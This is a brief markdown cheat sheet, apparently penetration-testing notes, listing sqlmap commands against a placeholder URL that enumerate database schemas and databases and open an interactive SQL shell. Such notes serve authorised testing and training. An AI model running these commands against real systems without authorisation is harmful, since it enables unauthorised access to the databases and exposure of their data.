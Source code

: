 # 03 - Databases

Search Tag(s): #sqlmap #enumeration-and-discovery

## 3.1 - Automated

Enumerate database schema.

```
$ sqlmap -u "<URL>" --random-agent --schema
```

Enumerate database schema yet exclude system databases.

```
$ sqlmap -u "<URL>" --random-agent --schema --exclude-sysdbs
```

Enumerate current database.

```
$ sqlmap -u "<URL>" --random-agent --current-db
```

Enumerate available databases.

```
$ sqlmap -u "<URL>" --random-agent --dbs
```

## 3.2 - Interactive SQL Shell

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SHOW DATABASES()

sql-shell> SELECT schema_name FROM information_schema.schemata
```